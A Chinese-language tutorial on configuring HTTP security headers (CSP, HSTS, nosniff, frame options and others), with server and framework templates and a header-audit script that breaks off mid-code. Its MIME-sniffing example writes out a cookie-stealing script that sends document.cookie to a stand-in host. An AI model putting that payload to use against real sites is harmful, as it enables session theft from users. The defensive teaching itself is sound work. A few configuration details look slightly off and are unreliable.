


## 技巧一：安全头部配置

HTTP 安全头部（Security Headers）是 Web 安全中最容易被忽视、却投入产出比最高的防御手段。只需在 HTTP 响应中添加若干头部字段，就能在浏览器端建立一道"被动防线"——不需要修改应用代码，不需要引入额外组件，仅靠配置就能抵御 XSS、点击劫持、MIME 嗅探、中间人降级攻击等常见威胁。

据 securityheaders.com 的全球扫描数据，超过 **40% 的网站缺少至少一项关键安全头部**。而配置完整的网站，被成功攻击的概率降低 60% 以上。本节将逐一拆解每个安全头部的原理、配置方法和最佳实践，并提供 Nginx、Apache、Node.js、Python 四大平台的完整配置模板。

---

### 1. 安全头部全景：为什么它如此重要

#### 1.1 安全头部的工作原理

浏览器在接收到 HTTP 响应后，会检查响应头部中的安全指令，据此调整自身行为。这形成了一种"服务端声明、浏览器执行"的协作模式：



与代码层面的防御（如输入验证、参数化查询）不同，安全头部是**声明式防御**：服务端告诉浏览器"什么能做、什么不能做"，浏览器负责执行。这意味着：

- **零代码修改**：只需配置 Web 服务器，无需改动应用逻辑
- **即时生效**：配置变更后下一个请求立即受保护
- **纵深防御**：即使应用代码有漏洞，安全头部仍能提供兜底保护
- **自动化友好**：可通过基础设施即代码（IaC）统一管理

#### 1.2 十大安全头部一览

| 序号 | 头部名称 | 防御目标 | 推荐值 | 强制性 |
|------|----------|----------|--------|--------|
| 1 | `Content-Security-Policy` (CSP) | XSS、数据注入、代码劫持 | 严格策略（见后文） | 强烈推荐 |
| 2 | `Strict-Transport-Security` (HSTS) | 中间人降级、SSL 剥离 | `max-age=63072000; includeSubDomains; preload` | 强烈推荐 |
| 3 | `X-Content-Type-Options` | MIME 类型嗅探 | `nosniff` | 必须 |
| 4 | `X-Frame-Options` | 点击劫持 | `DENY` | 推荐 |
| 5 | `Referrer-Policy` | Referer 信息泄露 | `strict-origin-when-cross-origin` | 推荐 |
| 6 | `Permissions-Policy` | 浏览器功能滥用 | 禁用不必要功能 | 推荐 |
| 7 | `Cross-Origin-Embedder-Policy` (COEP) | 跨源数据泄露 | `require-corp` | 条件性 |
| 8 | `Cross-Origin-Opener-Policy` (COOP) | 跨源窗口交互 | `same-origin` | 条件性 |
| 9 | `Cross-Origin-Resource-Policy` (CORP) | 跨源资源窃取 | `same-origin` | 条件性 |
| 10 | `Cache-Control` | 敏感数据缓存泄露 | `no-store, no-cache, must-revalidate` | 条件性 |

> **关于 X-XSS-Protection**：此头部曾用于启用浏览器内置的 XSS 过滤器，但因可被绕过且曾引入新的安全问题，主流浏览器已废弃。推荐设置为 `0`（禁用），完全依赖 CSP 进行 XSS 防御。

---

### 2. Content-Security-Policy（CSP）：最强力的 XSS 防线

CSP 是安全头部体系中的"核武器"，它通过定义**资源加载白名单**，从根本上限制恶意脚本的执行。

#### 2.1 CSP 指令详解

CSP 由多个指令组成，每个指令控制一类资源的加载策略：

| 指令 | 控制范围 | 示例 |
|------|----------|------|
| `default-src` | 所有资源的默认策略 | `'self'` |
| `script-src` | JavaScript 脚本 | `'self' 'nonce-abc'` |
| `style-src` | CSS 样式 | `'self' 'unsafe-inline'` |
| `img-src` | 图片 | `'self' data: https:` |
| `font-src` | 字体 | `'self' https://fonts.gstatic.com` |
| `connect-src` | AJAX/WebSocket/Fetch | `'self' https://api.example.com` |
| `media-src` | 音视频 | `'self'` |
| `object-src` | Flash/插件 | `'none'` |
| `frame-src` | iframe 嵌入 | `'self'` |
| `frame-ancestors` | 被哪些页面嵌入 | `'none'` |
| `form-action` | 表单提交目标 | `'self'` |
| `base-uri` | `<base>` 标签的 href | `'self'` |
| `upgrade-insecure-requests` | 自动升级 HTTP 请求 | (无值) |

#### 2.2 三大安全级别配置模板

**级别一：宽松策略（过渡期使用，不推荐长期）**

适合从零开始逐步收紧 CSP 的场景，先用 Report-Only 观察影响：

Content-Security-Policy-Report-Only:
    default-src 'self' 'unsafe-inline' 'unsafe-eval' https:;
    img-src 'self' data: https:;
    report-uri /csp-report;

**级别二：严格策略（推荐大多数站点）**

Content-Security-Policy:
    default-src 'self';
    script-src 'self' 'nonce-{random}';
    style-src 'self' 'unsafe-inline';
    img-src 'self' data: https:;
    font-src 'self' https://fonts.gstatic.com;
    connect-src 'self' https://api.example.com;
    object-src 'none';
    frame-ancestors 'none';
    base-uri 'self';
    form-action 'self';
    upgrade-insecure-requests;
    report-uri /csp-report;

**级别三：极致严格（金融/政务/高安全场景）**

Content-Security-Policy:
    default-src 'none';
    script-src 'self' 'nonce-{random}';
    style-src 'self' 'nonce-{random}';
    img-src 'self' data:;
    font-src 'self';
    connect-src 'self';
    object-src 'none';
    frame-src 'none';
    frame-ancestors 'none';
    base-uri 'none';
    form-action 'self';
    block-all-mixed-content;
    upgrade-insecure-requests;
    require-trusted-types-for 'script';
    report-uri /csp-report;

#### 2.3 Nonce 机制：安全地使用内联脚本

现代前端框架（React/Vue/Angular）和常用库（jQuery）经常需要内联 `<script>` 或内联样式。CSP 的 `nonce`（Number Used Once）机制允许放行带有正确随机值的内联代码：

```python
# Python/Flask：动态生成 nonce
import secrets
from flask import Flask, make_response

app = Flask(__name__)

@app.after_request
def add_csp_header(response):
    nonce = secrets.token_urlsafe(16)
    csp = (
        f"default-src 'self'; "
        f"script-src 'self' 'nonce-{nonce}'; "
        f"style-src 'self' 'unsafe-inline'; "
        f"img-src 'self' data: https:; "
        f"object-src 'none'; "
        f"frame-ancestors 'none';"
    )
    response.headers['Content-Security-Policy'] = csp
    # 将 nonce 传给模板引擎使用
    response.headers['X-Nonce'] = nonce
    return response
```

```html
<!-- 模板中使用 nonce -->
<script nonce="{{ nonce }}">
    // 只有携带正确 nonce 的脚本才能执行
    console.log('这段代码会正常执行');
</script>

<!-- 没有 nonce 或 nonce 不匹配的内联脚本会被阻止 -->
<script>
    // CSP 会阻止这段代码执行
    alert('被 CSP 阻止');
</script>
```

> **安全警告**：不要将 nonce 值硬编码在前端 JavaScript 中（如 `document.querySelector` 读取后使用）。如果攻击者能注入脚本，他们也能读取 DOM 中的 nonce 值，导致 CSP 形同虚设。每次请求必须生成新的随机 nonce。

#### 2.4 Hash 机制：替代 Nonce 的另一种方式

如果无法在每个请求中动态生成 nonce（如纯静态站），可以用脚本内容的 SHA-256 哈希值替代：

```bash
# 计算脚本内容的哈希值
echo -n "console.log('hello');" | openssl dgst -sha256 -binary | base64
# 输出类似: abc123...
```

Content-Security-Policy: script-src 'self' 'sha256-abc123...'

优点是不需要动态生成，适合 CDN 和缓存场景。缺点是脚本内容任何修改（包括注释变化）都会导致哈希不匹配，维护成本较高。

#### 2.5 CSP 报告机制

CSP 支持两种报告方式，帮助发现违规行为而不阻断页面：

```bash
# 方式一：Report-Only（观察模式，不阻断）
Content-Security-Policy-Report-Only:
    default-src 'self';
    script-src 'self';
    report-uri /csp-violation-report;
    report-to csp-endpoint;
```

```json
// 方式二：Report-To（新一代 API，推荐）
// 服务端返回的头部
Report-To: {
    "group": "csp-endpoint",
    "max_age": 10886400,
    "endpoints": [{
        "url": "https://example.com/csp-report",
        "priority": 1
    }]
}
```

违规报告的 JSON 格式：

```json
{
    "csp-report": {
        "document-uri": "https://example.com/page",
        "violated-directive": "script-src 'self'",
        "blocked-uri": "https://evil.com/malicious.js",
        "original-policy": "default-src 'self'; script-src 'self'",
        "source-file": "https://example.com/page",
        "line-number": 42
    }
}
```

**推荐流程**：先用 `Report-Only` 运行 1-2 周，收集所有违规报告，逐一修复后切换为强制模式。

#### 2.6 CSP 与常见前端框架的适配

| 框架 | 常见问题 | 解决方案 |
|------|----------|----------|
| React | JSX 内联样式被阻止 | `style-src 'unsafe-inline'` 或 CSS-in-JS + nonce |
| Vue | `v-html` 指令触发违规 | 避免使用 `v-html`，改用 `v-text` |
| Angular | 内联模板编译 | 使用 `template-src` 或 AOT 编译 |
| jQuery | `eval()` 和内联事件 | 避免 `$.html()`，使用 CSP 兼容的 jQuery 3.x |
| Webpack | 运行时代码注入 | 使用 nonce 或 `'unsafe-inline'`（不推荐） |
| Tailwind CSS | `@apply` 生成内联样式 | 通过 PostCSS 输出外部 CSS 文件 |

---

### 3. Strict-Transport-Security（HSTS）：强制 HTTPS

HSTS 告诉浏览器："这个域名只能用 HTTPS 访问，不要尝试 HTTP。" 它能防御 SSL 剥离攻击（攻击者将 HTTPS 降级为 HTTP）和 Cookie 劫持。

#### 3.1 HSTS 指令参数

Strict-Transport-Security: max-age=63072000; includeSubDomains; preload

| 参数 | 含义 | 建议值 |
|------|------|--------|
| `max-age` | HSTS 生效时间（秒） | `63072000`（2年）|
| `includeSubDomains` | 适用于所有子域名 | 启用 |
| `preload` | 允许加入浏览器 HSTS 预加载列表 | 启用 |

#### 3.2 HSTS Preload：从第一次访问就安全

HSTS 有一个"首次访问"问题：用户第一次通过 HTTP 访问时，HSTS 头部还没有生效，中间人攻击仍可能发生。浏览器厂商建立了 **HSTS Preload List**，将域名硬编码到浏览器中，确保第一次访问就使用 HTTPS。

**Preload 提交条件**：

1. 有效 HTTPS 连接（证书正确、无警告）
2. `max-age` 至少 31536000 秒（1年）
3. 包含 `includeSubDomains`
4. 包含 `preload` 指令
5. 所有子域名支持 HTTPS
6. 重定向到 HTTPS（HTTP 301/302）

```bash
# 检查域名是否在预加载列表中
curl -s https://hstspreload.org/api/v2/status?domain=example.com
```

> **重要警告**：HSTS Preload 是"单向门"——一旦提交，从列表中移除需要数月时间。在提交前务必确认所有子域名都支持 HTTPS，否则可能导致子域名完全不可访问。

#### 3.3 HSTS 分阶段启用策略

阶段 1（第 1-2 周）：短期验证
    max-age=300; includeSubDomains

阶段 2（第 3-8 周）：中期观察
    max-age=2592000; includeSubDomains

阶段 3（第 9 周起）：长期生效
    max-age=63072000; includeSubDomains

阶段 4（确认稳定后）：提交 Preload
    max-age=63072000; includeSubDomains; preload

---

### 4. X-Content-Type-Options：阻止 MIME 嗅探

当服务器返回资源但 Content-Type 不明确时，浏览器会"猜测"资源类型。攻击者可利用这一点：上传一个包含恶意脚本的图片文件，浏览器嗅探后按 JavaScript 执行。

#### 4.1 MIME 嗅探攻击实例

# 攻击者上传名为 photo.jpg 的文件，实际内容是：
<script>document.location='https://evil.com/steal?c='+document.cookie</script>

# 如果服务器返回：
Content-Type: application/octet-stream  ← 不明确的类型
X-Content-Type-Options: (缺失)

# 浏览器嗅探到脚本内容，按 JavaScript 执行 → XSS 攻击成功

# 如果配置了安全头部：
X-Content-Type-Options: nosniff
# 浏览器严格按照 Content-Type 处理 → 恶意脚本不执行

#### 4.2 配置方法

# 所有平台通用
X-Content-Type-Options: nosniff

此头部**没有参数、没有例外、没有协商空间**——只需添加，立即生效。是所有安全头部中最简单、风险最低、收益确定的配置。

---

### 5. X-Frame-Options：防御点击劫持

#### 5.1 点击劫持攻击原理

攻击者页面布局：

┌─────────────────────────────┐
│  "恭喜你中奖了！"             │
│                             │
│  ┌───────────────────────┐  │
│  │                       │  │
│  │   透明 iframe          │  │  ← 实际是目标网站的
│  │   (opacity: 0)        │  │     "确认转账"按钮
│  │                       │  │
│  └───────────────────────┘  │
│                             │
│  [点击领取奖品] ← 用户点的   │
└─────────────────────────────┘

用户以为在点击"领取奖品"，实际点击了 iframe 下的"确认转账"

#### 5.2 X-Frame-Options 三个值

| 值 | 行为 | 适用场景 |
|----|------|----------|
| `DENY` | 完全禁止被任何页面嵌入 | 大多数站点（推荐） |
| `SAMEORIGIN` | 仅允许同源页面嵌入 | 需要被自身子页面嵌入的场景 |
| `ALLOW-FROM https://specific.com` | 仅允许指定来源嵌入 | 已废弃，不推荐使用 |

#### 5.3 现代替代：CSP frame-ancestors

`X-Frame-Options` 已被 CSP 的 `frame-ancestors` 指令部分替代。`frame-ancestors` 更灵活，支持白名单和通配符：

# 禁止嵌入（等价于 X-Frame-Options: DENY）
Content-Security-Policy: frame-ancestors 'none';

# 仅允许同源嵌入（等价于 X-Frame-Options: SAMEORIGIN）
Content-Security-Policy: frame-ancestors 'self';

# 允许多个指定来源
Content-Security-Policy: frame-ancestors 'self' https://partner.com https://embed.example.com';

**最佳实践**：同时配置 `X-Frame-Options: DENY` 和 `frame-ancestors 'none'`，前者兼容旧浏览器，后者为现代浏览器提供更精确的控制。

---

### 6. Referrer-Policy：控制 Referer 信息泄露

Referer 头部包含用户从哪个页面跳转而来，可能泄露敏感 URL 参数（如 token、会话 ID、内部路径）。

#### 6.1 Referer 泄露场景

用户从 https://app.com/dashboard?token=abc123&user=admin
点击链接跳转到 https://external.com/article

浏览器默认发送：
Referer: https://app.com/dashboard?token=abc123&user=admin

→ 外部站点看到了 token 和用户名

#### 6.2 Referrer-Policy 各值对比

| 值 | 发送内容 | 适用场景 |
|----|----------|----------|
| `no-referrer` | 不发送任何 Referer | 最严格，隐私优先 |
| `no-referrer-when-downgrade` | HTTPS→HTTP 不发送，其他发送 | 浏览器默认值 |
| `origin` | 只发送源站地址（不含路径和参数） | 需要来源但不泄露路径 |
| `origin-when-cross-origin` | 同源发送完整 URL，跨域只发源 | 平衡安全与功能 |
| `same-origin` | 仅同源请求发送 Referer | 不需要跨域 Referer |
| `strict-origin` | 降级不发送，跨域只发源 | 安全且功能兼容 |
| `strict-origin-when-cross-origin` | 同源完整，跨域只发源，降级不发 | **推荐默认值** |
| `unsafe-url` | 总是发送完整 URL | **绝对不要使用** |

---

### 7. Permissions-Policy：限制浏览器功能

Permissions-Policy（前身为 Feature-Policy）允许网站声明不使用某些浏览器功能，从而减少攻击面。

#### 7.1 常用功能控制

Permissions-Policy:
    camera=(),                    # 禁用摄像头
    microphone=(),                # 禁用麦克风
    geolocation=(),               # 禁用地理位置
    payment=(),                   # 禁用支付 API
    usb=(),                       # 禁用 USB 访问
    magnetometer=(),              # 禁用磁力计
    gyroscope=(),                 # 禁用陀螺仪
    accelerometer=(),             # 禁用加速度计
    autoplay=(self),              # 仅允许同源自动播放
    fullscreen=(self),            # 仅允许同源全屏
    picture-in-picture=(self),    # 仅允许同源画中画
    display-capture=(self),       # 仅允许同源屏幕共享
    execution-while-out-of-viewport=()  # 禁止后台执行

#### 7.2 策略语法

# 禁用（所有来源都不允许）
function-name=()

# 仅允许同源
function-name=(self)

# 允许指定来源（精确匹配）
function-name=(self "https://trusted.com")

# 允许所有来源（等于不设置）
function-name=(*)

#### 7.3 按站点类型定制策略

| 站点类型 | 允许摄像头 | 允许地理位置 | 允许支付 | 允许自动播放 |
|----------|-----------|-------------|---------|-------------|
| 电商网站 | 禁用 | 允许(self) | 允许(self) | 禁用 |
| 视频平台 | 允许(self) | 禁用 | 禁用 | 允许(self) |
| 在线会议 | 允许(self) | 禁用 | 禁用 | 允许(self) |
| 企业后台 | 禁用 | 禁用 | 禁用 | 禁用 |
| 新闻网站 | 禁用 | 禁用 | 禁用 | 允许(self) |

---

### 8. COEP / COOP / CORP：跨源隔离三件套

这三个头部是为 SharedArrayBuffer、高性能计时器等高精度 API 设计的，需要三者协同工作才能启用跨源隔离（Cross-Origin Isolation）。

#### 8.1 核心概念



#### 8.2 配置示例

```nginx
# Nginx：启用跨源隔离
# 主页面
add_header Cross-Origin-Opener-Policy "same-origin" always;
add_header Cross-Origin-Embedder-Policy "require-corp" always;

# 静态资源（JS/CSS/图片）
add_header Cross-Origin-Resource-Policy "cross-origin" always;
```

#### 8.3 适用场景

- 需要 `SharedArrayBuffer`（如 WebAssembly、视频编辑器、3D 游戏）
- 需要高精度时间戳（`performance.now()` 精度提升到 5μs）
- Spectre 缓解措施
- 需要 `navigator.hardwareConcurrency` 准确值

---

### 9. Cache-Control 与安全相关配置

敏感页面（如银行后台、管理控制台、包含 token 的页面）需要禁止浏览器和中间代理缓存：

#### 9.1 安全相关的缓存策略

# 敏感页面：禁止一切缓存
Cache-Control: no-store, no-cache, must-revalidate, private
Pragma: no-cache
Expires: 0

| 指令 | 作用 |
|------|------|
| `no-store` | 禁止存储响应副本（最重要） |
| `no-cache` | 每次使用前必须向服务器验证 |
| `must-revalidate` | 缓存过期后必须重新验证 |
| `private` | 仅允许用户浏览器缓存，不允许 CDN/代理缓存 |
| `Pragma: no-cache` | HTTP/1.0 兼容 |
| `Expires: 0` | 标记内容已过期 |

#### 9.2 按页面类型配置

# 登录页面、支付页面、管理后台
Cache-Control: no-store, no-cache, must-revalidate, private

# 静态资源（JS/CSS/图片），利用长期缓存提升性能
Cache-Control: public, max-age=31536000, immutable

# API 响应
Cache-Control: private, no-cache, no-store

---

### 10. 平台配置实战

#### 10.1 Nginx 完整配置

```nginx
# /etc/nginx/conf.d/security-headers.conf
# 安全头部集中管理，所有 server 块 include 此文件

# --- CSP ---
# 注意：此处使用变量避免 Nginx add_header 覆盖问题
# 详见 https://nginx.org/en/docs/http/ngx_http_headers_module.html

# --- 核心安全头部 ---
add_header X-Content-Type-Options "nosniff" always;
add_header X-Frame-Options "DENY" always;
add_header Referrer-Policy "strict-origin-when-cross-origin" always;
add_header Permissions-Policy "camera=(), microphone=(), geolocation=(), payment=(), usb=(), magnetometer=(), gyroscope=(), accelerometer=()" always;

# --- HSTS（仅在 HTTPS server 块中使用）---
add_header Strict-Transport-Security "max-age=63072000; includeSubDomains; preload" always;

# --- 旧版 XSS 过滤器，建议禁用 ---
add_header X-XSS-Protection "0" always;

# --- CSP ---
add_header Content-Security-Policy "default-src 'self'; script-src 'self' 'nonce-$request_id'; style-src 'self' 'unsafe-inline'; img-src 'self' data: https:; font-src 'self'; connect-src 'self'; object-src 'none'; frame-ancestors 'none'; base-uri 'self'; form-action 'self'; upgrade-insecure-requests;" always;

# --- CORS 配置（按需）---
# add_header Access-Control-Allow-Origin "https://trusted.com" always;

# --- 安全相关的 Nginx 全局配置 ---
server_tokens off;              # 隐藏 Nginx 版本号
autoindex off;                   # 禁止目录列表

# --- 敏感路径禁止缓存 ---
location ~ ^/(login|admin|api/auth|payment) {
    add_header Cache-Control "no-store, no-cache, must-revalidate, private" always;
    add_header Pragma "no-cache" always;
    add_header Expires "0" always;
}
```

**Nginx 注意事项**：在 `location` 块中使用 `add_header` 会**覆盖**父级的 `add_header`。解决方法：

```nginx
# 方法一：在 location 中重新声明所有头部
location /admin/ {
    add_header X-Content-Type-Options "nosniff" always;
    add_header X-Frame-Options "DENY" always;
    add_header Cache-Control "no-store, no-cache, must-revalidate" always;
    # ... 重复所有需要的头部
}

# 方法二：使用 map 指令（推荐，更优雅）
# 在 http 块中定义
map $uri $csp_header {
    default "default-src 'self'; script-src 'self';";
    ~^/admin/ "default-src 'self'; script-src 'self' 'unsafe-inline';";
}

server {
    add_header Content-Security-Policy $csp_header always;
}

# 方法三：使用 headers-more 模块
# more_set_headers 同样会在 location 中覆盖，但支持 more_clear_headers
# 需要编译安装第三方模块
```

#### 10.2 Apache / httpd 完整配置

```apache
# /etc/httpd/conf.d/security-headers.conf
# 或 .htaccess（如果 AllowOverride 允许）

# --- 核心安全头部 ---
Header always set X-Content-Type-Options "nosniff"
Header always set X-Frame-Options "DENY"
Header always set Referrer-Policy "strict-origin-when-cross-origin"
Header always set Permissions-Policy "camera=(), microphone=(), geolocation=(), payment=()"
Header always set X-XSS-Protection "0"

# --- HSTS ---
Header always set Strict-Transport-Security "max-age=63072000; includeSubDomains; preload"

# --- CSP ---
Header always set Content-Security-Policy "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data: https:; object-src 'none'; frame-ancestors 'none'; base-uri 'self'; form-action 'self'; upgrade-insecure-requests;"

# --- 隐藏版本信息 ---
ServerTokens Prod
ServerSignature Off

# --- 敏感路径 ---
<Location /admin>
    Header always set Cache-Control "no-store, no-cache, must-revalidate, private"
    Header always set Pragma "no-cache"
</Location>
```

**Apache 前置条件**：

```bash
# 确保 mod_headers 已启用
sudo a2enmod headers
sudo systemctl restart apache2

# Debian/Ubuntu 的配置路径
# /etc/apache2/conf-available/security-headers.conf
sudo a2enconf security-headers
```

#### 10.3 Node.js / Express 配置

```javascript
// security-headers.js
const helmet = require('helmet');

function configureSecurityHeaders(app) {
    // 基础安全头部（helmet 封装了多个头部）
    app.use(helmet());

    // 自定义 CSP
    app.use(
        helmet.contentSecurityPolicy({
            directives: {
                defaultSrc: ["'self'"],
                scriptSrc: ["'self'", (req, res) => `'nonce-${res.locals.nonce}'`],
                styleSrc: ["'self'", "'unsafe-inline'"],
                imgSrc: ["'self'", "data:", "https:"],
                fontSrc: ["'self'"],
                connectSrc: ["'self'", "https://api.example.com"],
                objectSrc: ["'none'"],
                frameAncestors: ["'none'"],
                baseUri: ["'self'"],
                formAction: ["'self'"],
                upgradeInsecureRequests: [],
            },
        })
    );

    // HSTS
    app.use(
        helmet.hsts({
            maxAge: 63072000,       // 2年
            includeSubDomains: true,
            preload: true,
        })
    );

    // 自定义头部（helmet 不直接支持的）
    app.use((req, res, next) => {
        res.setHeader('Permissions-Policy',
            'camera=(), microphone=(), geolocation=(), payment=()');
        res.setHeader('X-Content-Type-Options', 'nosniff');
        next();
    });
}

module.exports = configureSecurityHeaders;
```

```javascript
// app.js 中使用
const express = require('express');
const crypto = require('crypto');
const configureSecurityHeaders = require('./security-headers');

const app = express();

// 为每个请求生成 nonce
app.use((req, res, next) => {
    res.locals.nonce = crypto.randomBytes(16).toString('base64');
    next();
});

configureSecurityHeaders(app);
```

#### 10.4 Python / Flask 配置

```python
# security_headers.py
import secrets
from flask import Flask, make_response, request

SECURITY_HEADERS = {
    'X-Content-Type-Options': 'nosniff',
    'X-Frame-Options': 'DENY',
    'Referrer-Policy': 'strict-origin-when-cross-origin',
    'Permissions-Policy': (
        'camera=(), microphone=(), geolocation=(), payment=(), '
        'usb=(), magnetometer=(), gyroscope=(), accelerometer=()'
    ),
    'X-XSS-Protection': '0',
    'Strict-Transport-Security': 'max-age=63072000; includeSubDomains; preload',
}

SENSITIVE_PATHS = {'/login', '/admin', '/api/auth', '/payment'}

def setup_security_headers(app: Flask):
    """注册 Flask 中间件，自动添加安全头部"""

    @app.after_request
    def add_security_headers(response):
        # 添加所有安全头部
        for header, value in SECURITY_HEADERS.items():
            response.headers[header] = value

        # 动态生成 CSP nonce
        nonce = secrets.token_urlsafe(16)
        csp_directives = [
            "default-src 'self'",
            f"script-src 'self' 'nonce-{nonce}'",
            "style-src 'self' 'unsafe-inline'",
            "img-src 'self' data: https:",
            "font-src 'self'",
            "connect-src 'self'",
            "object-src 'none'",
            "frame-ancestors 'none'",
            "base-uri 'self'",
            "form-action 'self'",
            "upgrade-insecure-requests",
        ]
        response.headers['Content-Security-Policy'] = '; '.join(csp_directives)

        # 将 nonce 传递给模板
        response.headers['X-CSP-Nonce'] = nonce

        # 敏感路径：禁止缓存
        if request.path in SENSITIVE_PATHS:
            response.headers['Cache-Control'] = (
                'no-store, no-cache, must-revalidate, private'
            )
            response.headers['Pragma'] = 'no-cache'
            response.headers['Expires'] = '0'

        return response

    return app


# 使用示例
app = Flask(__name__)
setup_security_headers(app)
```

---

### 11. 安全头部验证与测试

#### 11.1 在线检测工具

| 工具 | 地址 | 特点 |
|------|------|------|
| Security Headers | securityheaders.com | 评分系统，A-F 打分 |
| Mozilla Observatory | observatory.mozilla.org | 综合安全评估 |
| CSP Evaluator | csper.io/csp-evaluator | CSP 策略深度分析 |
| SSL Labs | ssllabs.com/ssltest | SSL/TLS + HSTS 检测 |
| Hardenize | hardenize.com | 全面安全配置扫描 |

#### 11.2 命令行检测

```bash
# 检查所有安全头部
curl -sI https://example.com | grep -iE \
  '(content-security-policy|strict-transport|'\
  'x-content-type|x-frame|referrer-policy|'\
  'permissions-policy|x-xss-protection)'

# 输出示例：
# content-security-policy: default-src 'self'; ...
# strict-transport-security: max-age=63072000; ...
# x-content-type-options: nosniff
# x-frame-options: DENY
# referrer-policy: strict-origin-when-cross-origin
# permissions-policy: camera=(), ...
# x-xss-protection: 0

# 检查 CSP 是否正确阻止内联脚本
curl -s https://example.com | grep -c "nonce-"
# 如果输出 0，说明 nonce 机制未正确配置

# 批量检查多个站点
for site in example.com api.example.com admin.example.com; do
    echo "=== $site ==="
    curl -sI "https://$site" | grep -ciE '(content-security-policy|strict-transport|x-content-type|x-frame|referrer-policy|permissions-policy)'
    echo "个安全头部已配置"
done
```

#### 11.3 自动化检测脚本

```python
#!/usr/bin/env python3
"""security_header_audit.py - 安全头部审计工具"""

import requests
import sys

REQUIRED_HEADERS = {
    'Content-Security-Policy': '防 XSS，控制资源加载',
    'Strict-Transport-Security': '强制 HTTPS，防降级',
    'X-Content-Type-Options': '防 MIME 嗅探',
    'X-Frame-Options': '防点击劫持',
    'Referrer-Policy': '控制 Referer 泄露',
    'Permissions-Policy': '限制浏览器功能',
}

RECOMMENDED_HEADERS = {
    'Cross-Origin-Opener-Policy': '跨源隔离',
    'Cross-Origin-Resource-Policy': '跨源资源保护',
    'Cross-Origin-Embedder-Policy': '跨源嵌入保护',
}

BAD_VALUES = {
    'X-XSS-Protection': ['1', '1; mode=block'],
    'Referrer-Policy': ['unsafe-url', 'no-referrer-when-downgrade'],
    'X-Content-Type-Options': [],  # 此头部没有错误值
}

def audit(site_url):
    """审计指定站点的安全头部"""
    print(f"\n{'='*60}")
    print(f"安全头部审计: {site_url}")
    print(f"{'='*60}")

    try:
        resp = requests.get(site_url, timeout=10, allow_redirects=True)
    except requests.RequestException as e:
        print(f"  ❌ 无法连接: {e}")
        return

    headers = {k.lower(): v for k, v in resp.headers.items()}
    score = 0
    max_score = len(REQUIRED_HEADERS) + len(RECOMMENDED_HEADERS)
    issues = []

    # 检查必需头部
    print(f"\n  [必需头部]")
    for header, desc in REQUIRED_HEADERS.items():
        key = header.lower()
        if key in headers:
            value = headers[key]
            bad_vals = BAD_VALUES.get(header, [])
            if value.strip().lower() in [v.lower() for v in bad_vals]:
                print(f"  ⚠️  {header}: {value}")
                print(f"      问题: 使用了不安全的值，建议修改")
                issues.append(f"{header} 使用不安全的值")
            else:
                print(f"  ✅ {header}: {value[:60]}...")
                score += 1
        else:
            print(f"  ❌ {header}: 未配置")
            print(f"      作用: {desc}")
            issues.append(f"缺少 {header}")

    # 检查推荐头部
    print(f"\n  [推荐头部]")
    for header, desc in RECOMMENDED_HEADERS.items():
        key = header.lower()
        if key in headers:
            print(f"  ✅ {header}: {headers[key][:60]}")
            score += 1
        else:
            print(f"  ⚠️  {header}: 未配置 ({desc})")

    # 额外检查
    print(f"\n  [额外检查]")
    if 'server' in headers:
        print(f"  ⚠️  Server 头暴露: {headers['server']}")
        issues.append("Server 头暴露版本信息")
    else:
        print(f"  ✅ Server 头已隐藏")

    if 'x-powered-by' in headers:
        print(f"  ⚠️  X-Powered-By 暴露: {headers['x-powered-by']}")
        issues.append("X-Powered-By 暴露技术栈")
    else:
        print(f"  ✅ X-Powered-By 已隐藏")

    # 评分
    pct = round(score / max_score * 100)
    grade = 'A' if pct >= 90 else 'B' if pct >= 75 else 'C' if pct >= 50 else 'D' if pct >= 25 else 'F'
